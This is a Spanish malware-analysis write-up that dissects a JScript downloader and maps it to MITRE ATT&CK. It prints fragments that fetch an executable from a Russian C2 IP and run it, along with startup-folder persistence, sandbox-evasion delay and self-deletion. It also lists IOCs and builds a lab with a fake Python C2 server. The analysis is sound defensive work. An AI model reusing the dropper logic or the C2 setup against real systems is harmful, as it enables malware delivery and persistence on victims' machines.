  - este bloque aún no se ha ejecutado en esta sesión (hasRun == false).
- Se borra a sí mismo.
- Engaña al usuario con un mensaje.
- Espera 5 segundos y luego el script continúa con el resto de la lógica (descargar ejecutable, etc.).

**Comportamiento:**
- Verifica si se está ejecutando desde la carpeta de Inicio de Windows (Startup).
- Si no está ahí, su intención es copiarse a sí mismo en esa carpeta bajo el nombre flash_update.js.

**Objetivo:** Asegurarse de que el virus se ejecute automáticamente cada vez que la víctima encienda el ordenador. Usa el nombre "Flash Update" para parecer legítimo si alguien revisa esa carpeta.


### Huella Digital  - Fingerprinting
```
for (pre_information=0; pre_information<pre_overheard.length; pre_information++){
    hash=((hash<<5) - hash + pre_overheard.charCodeAt(pre_information)) & 0xffffffff;
}
```

**Comportamiento:** Genera un identificador único (uid) basado en un hash de la ruta donde está instalado el archivo.

**Objetivo:** Identificar a cada víctima de forma única ante el servidor del atacante. Así saben cuántas máquinas han infectado y si una petición viene de una máquina nueva o repetida.


### Evasión de Antivirus - Anti-Sandbox
**Bucle infinito exterior:**
```
while (true) {
    tone = tone + 1;
    ...
}
```
donde:
- No hace nada “útil” hasta que tone alcanza un valor concreto.

**Cuando `tone == 200000000`**
```
if (tone == 200000000) {
    while (true) {
        ...
    }
    break;
}
```
donde:
- Cuando tone llega a 200000000, entra en otro bucle infinito interno.
- Después de que ese bucle interno termine, hace break; y sale del bucle exterior.

**Comportamiento:** Ejecuta un bucle while que cuenta hasta 200.000.000 antes de hacer nada malicioso.

**Objetivo:** Engañar a los sistemas de análisis automático (Sandboxes). Muchos antivirus ejecutan un archivo sospechoso durante unos segundos en un entorno aislado para ver qué hace. Como este script se pasa los primeros minutos "haciendo nada" (contando), el antivirus piensa que es inofensivo y lo deja pasar. O si lo ejecutamos en plataformas como ANY.RUN, dado que la versión gratuita tiene un límite de tiempo para el análisis, podría provocar que el análisis finalice antes de que se active el código malicioso, debido al bucle de retardo.

  


### Conexión con el Servidor de Mando y Control - C2
**Dentro del while (true) interno:**
```
try {
    http.setOption(3, "MSXML");
    http.open("GET", tempPath + "&" + Math.floor(Math.random()*200+1) + "&uid=" + Math.abs(hash), false);
    http.send();
```
donde:
- Configura un objeto HTTP (http).
- Hace una petición GET a una URL construida a partir de:
  - tempPath (que realmente es una URL base),
  - un número aleatorio,
  - y un uid único basado en hash que vimos en el apartado de Fingerprinting.

**Comportamiento:** Realiza una petición web (HTTP GET) a la IP 217.28.218.217.

**Objetivo:** Contactar con el atacante para decir "estoy vivo" y descargar la carga dañina (payload).


### Descarga y Validación del Malware
**Si la respuesta es “correcta” (código 200):**
```
if (http.status == 100 + 50 + 50) { // 200
    if (fso.FileExists(targetPath)) fso.DeleteFile(targetPath);

    stream.Open();
    stream.Type = 1;
    stream.Write(http.responseBody);
    stream.Position = 0;
    stream.SaveToFile(targetPath);
    stream.Close();

    tmpFile = fso.GetFile(targetPath).OpenAsTextStream(1);
```
donde:
- Comprueba que status es 200.
- Si ya existía un fichero en targetPath, lo borra.
- Abre un stream binario, escribe en él el cuerpo de la respuesta (responseBody).
- Lo guarda en disco en targetPath.
- Cierra el stream y vuelve a abrir el fichero como texto (tmpFile).

**Comprueba si el fichero parece un ejecutable PE:**
```
if (fso.FileExists(targetPath) &&
    tmpFile.ReadLine().substring(0, 2) == "MZ") {
    
    executed = true;
    shellApp.ShellExecute(targetPath, "", "", "open1");
    ...
}
```
donde:
- Verifica que el fichero existe.
- Lee la primera línea y mira si los dos primeros caracteres son "MZ".
- "MZ" es la firma típica de un ejecutable de Windows (formato PE).
- Si se cumple:
  - Marca executed = true.
  - Lanza ese fichero con ShellExecute (lo ejecuta).

**Comportamiento:**
  - Descarga un archivo binario y lo guarda en la carpeta temporal (%TEMP%) con un nombre numérico aleatorio.
  - Validación MZ: Lee los dos primeros caracteres del archivo descargado. Si son "MZ", confirma que es un ejecutable de Windows válido.

**Objetivo:** Asegurarse de que la descarga no falló ni fue interceptada por un firewall antes de intentar ejecutarla.


### Ejecución y Limpieza
**Borrado del propio script y del fichero descargado:**
```
if (fso.FileExists(WScriptObj.ScriptFullName))
    fso.DeleteFile(WScriptObj.ScriptFullName);

WScriptObj.Sleep(20 * 200);

if (fso.FileExists(targetPath))
    fso.DeleteFile(targetPath);

tmpFile.Close();
break;
```
donde:
- Intenta borrar el fichero del propio script (ScriptFullName).
- Espera un rato (Sleep).
- Borra también el fichero descargado (targetPath), si existe.
- Cierra el tmpFile y hace break; para salir del bucle interno.

**Comportamiento:**
- Usa ShellExecute para arrancar el .exe descargado.
- Intenta borrar el script .js original y el .exe descargado para eliminar evidencias.

**Resultado final:** El script de JavaScript termina su trabajo y deja el control al nuevo ejecutable descargado que podría ser, un Ransomware, un troyano bancario o un software de espionaje.


### Si falla o no se ejecuta nada
```
} catch (e) {}

if (executed == true) {
    break;
}

WScriptObj.Sleep(10000 * 8);
```
donde:
- Si pasa una excepción en la descarga/escritura, se ignora.
- Si executed == true, sale del bucle interno.
- Si no se ha conseguido ejecutar el archivo:
  - espera unos segundos (Sleep(80000)),
  - y vuelve a intentar la descarga en el mismo while(true) interno.

## Extracción los IOCs

### Indicadores de Red - Network Indicators
**Investigamos un poco sobre esa IP:**
```shell
whois 217.28.218.217
% This is the RIPE Database query service.
% The objects are in RPSL format.
%
% The RIPE Database is subject to Terms and Conditions.
% See https://docs.db.ripe.net/terms-conditions.html

% Note: this output has been filtered.
%       To receive output for a database update, use the "-B" flag.

% Information related to '217.28.218.192 - 217.28.218.223'

% Abuse contact for '217.28.218.192 - 217.28.218.223' is 'abuse@domru.ru'

inetnum:        217.28.218.192 - 217.28.218.223
netname:        ARFU-NET
country:        RU
admin-c:        SM3227-RIPE
tech-c:         SK4292-RIPE
status:         ASSIGNED PA
mnt-by:         JSC-TELENET-MNT
created:        2017-07-05T07:15:06Z
last-modified:  2017-07-13T10:26:04Z
source:         RIPE

person:         Tech Admin Telenet
address:        14 build 3,
address:        Mazhorov Side Str.,
address:        Moscow, Russia, 105023
phone:          +7 495 7857100
fax-no:         +7 495 7772333
nic-hdl:        SK4292-RIPE
mnt-by:         JSC-TELENET-MNT
created:        2008-10-10T14:20:03Z
last-modified:  2018-11-27T12:11:36Z
source:         RIPE # Filtered

person:         Sergey Matral
address:        14 build 3, Mazhorov Side Str., Moscow, Russia, 107023
phone:          +7 495 7254112
nic-hdl:        SM3227-RIPE
mnt-by:         ru-okbprogress-1-mnt
created:        2002-08-26T10:23:12Z
last-modified:  2018-09-25T16:16:30Z
source:         RIPE # Filtered

% Information related to '217.28.216.0/22AS29053'

route:          217.28.216.0/22
descr:          Routing Block#2 Telenet (Moscow)
origin:         AS29053
mnt-by:         JSC-TELENET-MNT
created:        2007-11-20T13:07:11Z
last-modified:  2007-11-20T13:07:11Z
source:         RIPE

% Information related to '217.28.216.0/22AS31363'

route:          217.28.216.0/22
descr:          JSC "ER-Telecom Holding" Moscow branch
descr:          Moscow, Russia
origin:         AS31363
mnt-by:         RAID-MNT
created:        2022-11-24T05:32:24Z
last-modified:  2022-11-24T05:32:24Z
source:         RIPE

% This query was served by the RIPE Database Query Service version 1.120 (BUSA)
```
donde:
- La IP 217.28.218.217 está dentro del bloque 217.28.218.192/27 (192–223).
- country: RU → el bloque está registrado en Rusia.
- netname: ARFU-NET → nombre lógico del bloque (suele ser un cliente o subred concreta).
- ASSIGNED PA → es espacio “Provider Aggregatable” asignado por el proveedor, no un bloque independiente de un cliente grande.
- El bloque está gestionado por JSC Telenet / JSC "ER-Telecom Holding", un ISP ruso con sede en Moscú.
- La dirección física en el WHOIS corresponde a Moscú.
- El contacto de abuso (a quien escribir si reportas actividad maliciosa) es: `abuse@domru.ru`
- No prueba que ahora mismo haya un host encendido en esa IP.
- La IP pertenece a un rango real,
- Está bajo la responsabilidad de el ISP ruso (JSC "ER-Telecom Holding", Moscú).


**Resumiendo:** La IP 217.28.218.217 pertenece al rango 217.28.218.192–223 (netname ARFU-NET), registrado en Rusia y gestionado por el ISP JSC 'ER-Telecom Holding' (Moscú).

**Probamos con VirusTotal a ver qué nos cuenta de esa IP:**


**Probamos con traceroute:**
```
traceroute 217.28.218.217
traceroute to 217.28.218.217 (217.28.218.217), 30 hops max, 60 byte packets
 1  _gateway (10.0.2.2)  0.678 ms  0.614 ms  0.589 ms
 2  192.168.144.1 (192.168.144.1)  5.019 ms  4.995 ms  4.967 ms
 3  * * *
 4  * * *
 5  10.255.180.78 (10.255.180.78)  8.534 ms  8.512 ms  8.487 ms
 6  10.34.205.1 (10.34.205.1)  22.311 ms  15.284 ms  15.257 ms
 7  10.34.206.57 (10.34.206.57)  17.951 ms 10.34.206.61 (10.34.206.61)  14.618 ms  14.589 ms
 8  193.251.247.13 (193.251.247.13)  18.637 ms  18.624 ms  18.613 ms
 9  193.251.150.76 (193.251.150.76)  18.602 ms 193.251.129.16 (193.251.129.16)  18.589 ms 193.251.150.76 (193.251.150.76)  20.323 ms
10  prs-bb2-link.ip.twelve99.net (62.115.123.220)  57.810 ms 193.251.150.76 (193.251.150.76)  20.295 ms prs-bb2-link.ip.twelve99.net (62.115.123.220)  82.849 ms
11  ffm-bb2-link.ip.twelve99.net (62.115.122.139)  46.710 ms  78.701 ms  78.665 ms
12  ffm-bb2-link.ip.twelve99.net (62.115.122.139)  78.649 ms sto-bb2-link.ip.twelve99.net (62.115.138.104)  78.618 ms  78.603 ms
13  mow-b5-link.ip.twelve99.net (62.115.141.23)  89.340 ms sto-bb2-link.ip.twelve99.net (62.115.138.104)  77.015 ms mow-b5-link.ip.twelve99.net (62.115.141.23)  88.528 ms
14  ertelekom-ic-393966.ip.twelve99-cust.net (213.248.90.211)  88.482 ms mow-b5-link.ip.twelve99.net (62.115.141.23)  88.455 ms  88.430 ms
15  ertelekom-ic-393965.ip.twelve99-cust.net (213.248.104.255)  90.609 ms  90.506 ms  89.663 ms
16  176x213x132x18.static-business.msk.ertelecom.ru (176.213.132.18)  85.236 ms * 176x213x132x30.static-business.msk.ertelecom.ru (176.213.132.30)  86.795 ms
17  * * *
18  * * *
19  * * *
20  * * *
21  * * *
```
donde:
- Saltos 1–2 (10.0.2.2, 192.168.144.1): 10.0.2.2 es la puerta de enlace predeterminada de VirtualBox. 192.168.144.1 es el router de mi red.
- Saltos 3–4: * * *: Routers intermedios que no responden a los mensajes “TTL exceeded”.
- Saltos 5–7 (10.255.x.x, 10.34.x.x): Más IPs privadas → red interna del ISP (carrier-grade NAT, backbone interno).
- Hasta aquí: simplemente estamos saliendo de mi red hacia el operador.
- Saltos 8–9 – 193.251.x.x: Routers públicos de un backbone europeo.
- Saltos 10–13 – *.ip.twelve99.net. Routers de Twelve99 (antes Telia), un operador Tier-1. Los nombres dan pistas:
  - prs-bb2 → backbone en París,
  - ffm-bb2 → backbone en Fráncfort,
  - sto-bb2 → backbone en Estocolmo,
  - mow-b5 → backbone en Moscú.
- Hasta aquí: mi tráfico está cruzando Europa hasta Moscú.
- Saltos 14–15 – ertelekom-ic-....twelve99-cust.net: Son los puntos de interconexión donde Twelve99 entrega el tráfico al cliente ER-Telecom (el mismo que te salía en el WHOIS).
- Salto 16 – 176x213x132x18/30.static-business.msk.ertelecom.ru. Son routers dentro de la red de ER-Telecom en Moscú (msk).
- A partir de aquí, estamos claramente dentro de la red del ISP ruso donde vive el rango 217.28.216.0/22 que incluye la IP.
- Saltos 17–21 – * * *: Los paquetes llegan hasta el proveedor de internet en Moscú, pero justo antes de llegar al servidor final (217.28.218.217), se pierden.

**<mark>Esa IP no responde a traceroute ni a ping.</mark>** El hecho de que muera después puede deberse a:
- Opción A: Hay un Firewall delante del servidor que bloquea todo el tráfico de diagnóstico (ICMP/UDP) para ocultarse.
- Opción B: El servidor ha sido desconectado ("Taken down") por el proveedor de internet debido a denuncias de abuso, pero la ruta hacia la red del proveedor sigue activa.


**Hacemos un escaneo ligero con nmap:**  
La opción -Pn indica que no confíe en ping y pruebe directamente los puertos.
```
nmap -Pn -p 80,443,8080 217.28.218.217
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-07 19:44 CET
Nmap scan report for 217x28x218x217.static-business.msk.ertelecom.ru (217.28.218.217)
Host is up.

PORT     STATE    SERVICE
80/tcp   filtered http
443/tcp  filtered https
8080/tcp filtered http-proxy

Nmap done: 1 IP address (1 host up) scanned in 3.03 seconds
usuario@usuario-1-2:~/Escritorio/M3-Ejercicio6$ 
```
donde:
- `Nmap scan report for 217x28x218x217.static-business.msk.ertelecom.ru`:
  - msk: Moscú.
  - ertelecom: El ISP ruso.
  - static-business: Confirma que es una IP estática empresarial, típica de servicios de hosting o VPS. No es la conexión doméstica, es infraestructura alquilada.
- El Estado de los Puertos: filtered. Silencio absoluto. Nmap envió paquetes solicitando entrar, pero nadie respondió. Los paquetes fueron "tirados a la basura" (dropped). Esto indica la presencia de un Firewall intermedio o una regla de enrutamiento que está bloqueando todo el tráfico entrante hacia esa IP. <mark>No es que el servicio web esté apagado (si fuera así, daría closed), es que la "carretera" hacia ese servidor ha sido cortada</mark>.
- **</mark>Se bloquea TODO el tráfico TCP hacia los puertos de servicio.</mark>**


**Conclusión sobre la ip de este ejercicio**:  
Hay indicios de que la IP 217.28.218.217 corresponde a un host en una red activa (no es una IP huérfana), pero los puertos típicos de HTTP/HTTPS (80, 443, 8080) están filtrados por un firewall. No se puede determinar si el servicio C2 sigue operativo en esos puertos, o si solo acepta conexiones en otras condiciones (otros puertos, reglas específicas, horario, listas blancas, etc.).


**Resumen de IOCs de Red:**
| Tipo | Valor | Contexto / Descripción |
| -- | -- | -- |
| IP C2 | 217.28.218.217  | Dirección IP del Servidor de Comando y Control.|
| Alojamiento de la IP | ISP ruso (JSC "ER-Telecom Holding", Moscú) |
| Contacto de abuso registrado | abuse@domru.ru |
| URL Completa  | https://217.28.218.217/NOPE/q64.php  | Ruta específica donde se aloja el payload malicioso.|
| Parámetro URL  | ?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt  | Cadena de consulta hardcodeada. Muy útil para reglas de detección en Proxy/Firewall.|
| Protocolo  | HTTPS (Port 443)  | Usa SSL para ocultar el tráfico (Msxml2.ServerXMLHTTP).|


### Indicadores de Host - Host-based Indicators
Rastros físicos que deja el malware en el disco duro de la víctima.
| Tipo | Valor / Patrón | Ubicación | Descripción |
| -- | -- | -- | -- |
| Nombre de Archivo | flash_update.js | Carpeta de Inicio (Startup) | Nombre que usa para la persistencia. Intenta hacerse pasar por una actualización de Adobe Flash. |
| Patrón de Archivo | "\d+.exe (Ej: 45.exe, 102.exe)" | %TEMP% | El payload descargado se guarda con un nombre numérico aleatorio en la carpeta temporal. |
| Firma Mágica | MZ (0x4D 0x5A) | Cabecera del archivo | El script busca explícitamente estos bytes al inicio del archivo descargado para confirmar que es un ejecutable. |


### IoC de contenido - cadenas - strings
Los IoC de Contenido (o String IoCs) son cadenas de texto específicas dentro del cuerpo del malware que sirven como "huellas dactilares". 

| Cadena (String) | Descripción / Contexto |
| -- | -- |
| 217.28.218.217 | La IP del servidor C2. |
| /NOPE/q64.php | La ruta del recurso en el servidor. |
| gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt | El IoC más fuerte. Es el valor del parámetro ?add=. Parece una clave de campaña o token único. |
| &uid= | El parámetro que usa para enviar el identificador de la víctima. |
| "The document is corrupted and cannot be opened" |  El mensaje de error falso. |
| Msxml2.ServerXMLHTTP | Objeto usado para la descarga silenciosa. |
| ADODB.Stream | Objeto usado para escribir el archivo binario en disco. |
| Scripting.FileSystemObject | Objeto para manipular archivos (borrarse a sí mismo). |
| WScript.Shell | Objeto para ejecutar comandos y leer variables de entorno. |
| MZ | "La ""firma mágica"" que busca el script para validar si descargó un ejecutable (.exe)." |

### Mapeo de las técnicas observadas en el código sobre la matriz MITRE ATT&CK Enterprise
#### Táctica: Execution - TA0002
El código intenta ejecutar código malicioso. Técnica: Command and Scripting Interpreter: JavaScript (T1059.007)
- Uso de objetos como ActiveXObject, WScript.Shell y la extensión .js confirman que este ataque depende del intérprete de scripts de Windows (wscript.exe o cscript.exe) para funcionar.


#### Táctica: Persistence - TA0003 
El código intenta mantener su posición en el sistema tras un reinicio. Técnica: Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder (T1547.001)
- El script busca la carpeta especial número 7 de Windows, que corresponde a la carpeta "Inicio" (Startup), y se copia allí.

#### Táctica: Defense Evasion - TA0005 
El código intenta evitar ser detectado.
- Técnica: Virtualization/Sandbox Evasion: Time Based Evasion (T1497.003)
  - El bucle infinito que cuenta hasta 200 millones antes de ejecutar la descarga. Esto está diseñado para agotar el tiempo de análisis de sandboxes gratuitas (como ANY.RUN).

- Técnica: Obfuscated Files or Information (T1027)
  - Todo el ejercicio de limpieza que se ha tenido que realizar para poder ver (y entender) algo en el código.

 - Técnica: Indicator Removal on Host: File Deletion (T1070.004)
  - El script intenta borrarse a sí mismo (ScriptFullName) y al ejecutable descargado después de lanzarlo para no dejar pistas forenses.

- Técnica: Masquerading (T1036)
  - Usa el nombre flash_update.js para parecer legítimo en la carpeta de inicio.


#### Táctica: Command and Control - TA0011
El código intenta comunicarse con sistemas bajo su control. Técnica: Application Layer Protocol: Web Protocols (T1071.001)
- Uso de peticiones HTTP/S estándar para comunicarse con el servidor C2.

#### Táctica: Resource Development - TA0042 -  Command and Control
Cómo obtiene el código sus herramientas.
- Técnica: Ingress Tool Transfer (T1105).
  - La descarga del archivo .exe desde una fuente externa para introducirlo en la red de la víctima.

#### Tabla resúmen de técnicas observadas sobre la matriz MITRE ATT&CK
| ID Técnica | Nombre de la Técnica | Evidencia Observada en el código |
| -- | -- | -- |
| T1059.007 | Interpreter: JavaScript | Ejecución vía WScript/ActiveX. |
| T1547.001 | Startup Folder | Copia a Shell.NameSpace(7) como flash_update.js. |
| T1497.003 | Time Based Evasion | Bucle while masivo (Delay execution). |
| T1027 | Obfuscated Files | Strings rotos y Unicode (\u00XX). |
| T1070.004 | File Deletion | FSO.DeleteFile() post-ejecución. |
| T1071.001 | Application Layer Protocol: Web Protocols  |  Uso del objeto Msxml2.ServerXMLHTTP |
| T1105 | Ingress Tool Transfer | Descarga de payload .exe desde IP remota. |
| T1036 | Masquerading | "Fake error message + nombre falso ""Flash Update""." |


## Laboratorio para probar este malware
Para que esto funcione, necesitamos engañar al malware en tres niveles: Red (DNS/IP), Cifrado (SSL/HTTPS) y Aplicación (La respuesta del servidor).

### Paso 1: Redirección de DNS - El archivo Hosts 
El malware intenta conectar a 217.28.218.217. Como no queremos que salga a internet, debemos decirle a la máquina de laboratorio que esa IP somos nosotros mismos (Localhost).

Editamos el archivo C:\Windows\System32\drivers\etc\hosts con permisos de Administrador y añadimos línea al final:
```
127.0.0.1       217.28.218.217
```

### Paso 2: El Payload - Hello World 
El malware espera un ejecutable (.exe) válido (que empiece por "MZ"). No podemos enviar un simple archivo de texto. Para ello, creamis un archivo llamado hola.c con el código:
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    printf("\n[+] CONEXION EXITOSA: El malware ha ejecutado este payload.\n");
    printf("[+] HELLO WORLD desde el Laboratorio.\n");
    system("pause"); // Para que la ventana no se cierre inmediatamente
    return 0;
}
```

Lo compilamos usando: `gcc hola.c -o payload.exe`.

Ponemos el fichero .exe en la misma carpeta donde ejecutarmos el script de Python que hará de listener en el servidor Linux.

### Paso 3: Certificado SSL Falso
El malware usa https://. Necesitamos un certificado para que el servidor Python pueda levantar el puerto 443 con SSL. Ejecutaremos este comando:
```bash
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```
donde:
- guardamos server.pen en la misma carpeta donde estarán, payload.exe y c2_listener_server.py.
- 

### Paso 4: El Listener C2 en Python
Este script simula ser el servidor del atacante.
- Escucha en el puerto 443.
- Intercepta la petición a /NOPE/q64.php.
- Responde con código 200 OK.
- Envía el archivo payload.exe.

Documento c2_listener_server.py:
```Python
import http.server
import ssl
import os

# CONFIGURACIÓN
PORT = 443
PAYLOAD_FILE = "payload.exe"
# La ruta que busca el malware (según tu análisis)
TARGET_PATH = "/NOPE/q64.php" 

class MalwareHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        # Imprimimos en consola quien se conecta
        print(f"\n[!] Petición recibida desde: {self.client_address[0]}")
        print(f"[!] Ruta solicitada: {self.path}")

        # Verificamos si la ruta contiene la parte crítica que busca el malware
        if TARGET_PATH in self.path:
            if os.path.exists(PAYLOAD_FILE):
                print(f"[+] Ruta correcta detectada. Enviando {PAYLOAD_FILE}...")
                
                # 1. Enviar código 200 OK
                self.send_response(200)
                
                # 2. Enviar cabeceras necesarias
                # 'application/octet-stream' indica que es un archivo binario
                self.send_header("Content-type", "application/octet-stream")
                self.send_header("Content-Disposition", f'attachment; filename="{PAYLOAD_FILE}"')
                
                # Calculamos el tamaño para la cabecera Content-Length
                fs = os.fstat(open(PAYLOAD_FILE, 'rb').fileno())
                self.send_header("Content-Length", str(fs.st_size))
                self.end_headers()

                # 3. Enviar el cuerpo del archivo (El ejecutable)
                with open(PAYLOAD_FILE, 'rb') as f:
                    self.wfile.write(f.read())
                
                print("[+] Payload enviado con éxito.\n")
            else:
                print(f"[-] ERROR: No encuentro el archivo {PAYLOAD_FILE} en el directorio actual.")
                self.send_error(404, "Payload no encontrado en el servidor")
        else:
            # Si el malware pide otra cosa o la URL no coincide
            print("[-] Ruta desconocida o irrelevante. Ignorando.")
            self.send_error(404, "File Not Found")

    # Silenciar logs por defecto de http.server para que se vea más limpio
    def log_message(self, format, *args):
        return

print(f"[*] Iniciando C2 Listener Falso en el puerto {PORT} (HTTPS)...")
print(f"[*] Esperando a la víctima en la ruta: {TARGET_PATH}")

# Configuración del Socket con SSL
server_address = ('0.0.0.0', PORT)
httpd = http.server.HTTPServer(server_address, MalwareHandler)

# Envolvemos el socket con el certificado que generaste
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile='server.pem')
httpd.socket = context.wrap_socket(httpd.socket, server_side=True)

try:
    httpd.serve_forever()
except KeyboardInterrupt:
    print("\n[*] Servidor detenido.")
```

### Cómo ejecutar la prueba
- Nos Aseguramos de tener los 3 archivos en la misma carpeta: c2_server.py, payload.exe y server.pem.
- Abrimos una terminal como Administrador (necesario para escuchar en el puerto 443).
- Ejecutamos: python c2_server.py.
- En otra terminal (o haciendo doble clic), ejecuta el script desofuscado del malware (ejercicio6.js).

### Lo que debería pasar:
- El malware "dormirá" (si no quitaste el bucle de retardo, el while largo). Recomendación: Cambia el 200000000 por 10 en el JS para no esperar.
- El malware conectará a tu Python.
- El Python dirá [+] Ruta correcta detectada. Enviando payload.exe....
- El malware recibirá el archivo, verá que empieza por "MZ", y lo ejecutará.
- Se abrirá una ventana negra diciendo: "[+] HELLO WORLD desde el Laboratorio".

